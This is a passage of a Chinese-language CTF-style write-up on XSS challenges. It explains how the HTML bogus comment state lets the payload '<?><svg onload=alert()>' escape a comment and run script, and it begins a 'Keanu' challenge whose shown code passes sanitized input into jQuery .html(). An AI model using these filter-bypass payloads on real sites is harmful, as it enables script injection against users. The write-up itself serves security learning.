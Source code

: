 8.2.4.41. Bogus comment state

Consume the [next input character](https://www.w3.org/TR/html52/syntax.html%23next-input-character):
- U+003E GREATER-THAN SIGN (&gt;)- Switch to the [data state](https://www.w3.org/TR/html52/syntax.html%23tokenizer-data-state). Emit the comment token.- EOF- Emit the comment. Emit an end-of-file token.- U+0000 NULL- Append a U+FFFD REPLACEMENT CHARACTER character to the comment token’s data.- Anything else- Append the [current input character](https://www.w3.org/TR/html52/syntax.html%23current-input-character) to the comment token’s data.
下一个字符是 anything else，会将这个字符插入到刚刚的 comment 中，也就是我们上图看到的&lt;!–?–&gt;，例如输入是aaa&lt;?bbb&gt;ccc的时候，解析到第 i 个字符时，innerHTML 的结果是这样的：

```
a
aa
aaa
aaa&lt;
aaa&lt;!--?--&gt;
aaa&lt;!--?b--&gt;
aaa&lt;!--?bb--&gt;
aaa&lt;!--?bbb--&gt;
aaa&lt;!--?bbb--&gt;
aaa&lt;!--?bbb--&gt;c
aaa&lt;!--?bbb--&gt;cc
aaa&lt;!--?bbb--&gt;ccc
```

直到该状态遇到了&gt;为止，回到 data state。注意这个 Bogus comment state 解析到&gt;的时候会直接回到 data state，也就是 HTML parser 最开始解析的状态，这个时候我们就可以插入 HTML 代码了。

当我们传入&lt;?&gt;&lt;svg onload=alert()&gt;时，第一步template.innerHTML我们得到的是

```
&lt;!--?--&gt;&lt;svg onload="alert()"&gt;&lt;/svg&gt;
```

第二步pwnme.innerHTML我们得到的是

```
&lt;!-- &lt;p&gt; DEBUG: &lt;template&gt;&lt;!--?--&gt;&lt;svg onload="alert()"&gt;&lt;/svg&gt; &lt;p&gt;&lt;/p&gt; --&amp;gt;
```

这时候 HTML parser 解析与我们在 Easy Version 分析差不多，只有遇到–&gt;的时候结束 Comment State 相关状态回到 data state，所以我们就成功执行了 XSS。



## Keanu

```
&lt;!-- Challenge --&gt;
&lt;number id="number" style="display:none"&gt;&lt;/number&gt;
&lt;div class="alert alert-primary" role="alert" id="welcome"&gt;&lt;/div&gt;
&lt;button id="keanu" class="btn btn-primary btn-sm" data-toggle="popover" data-content="DM @PwnFunction"
    data-trigger="hover" onclick="alert(`If you solved it, DM me @PwnFunction :)`)"&gt;Solved it?&lt;/button&gt;
    
&lt;script&gt;
    /* Input */
    var number = (new URL(location).searchParams.get('number') || "7")[0],
        name = DOMPurify.sanitize(new URL(location).searchParams.get('name'), `{` SAFE_FOR_JQUERY: true `}`);
    $('number#number').html(number);
    $('#welcome').html(`Welcome &lt;b&gt;$`{`name || "Mr. Wick"`}`!&lt;/b&gt;`);

    /* Greet */
    $('#keanu').popover('show')
```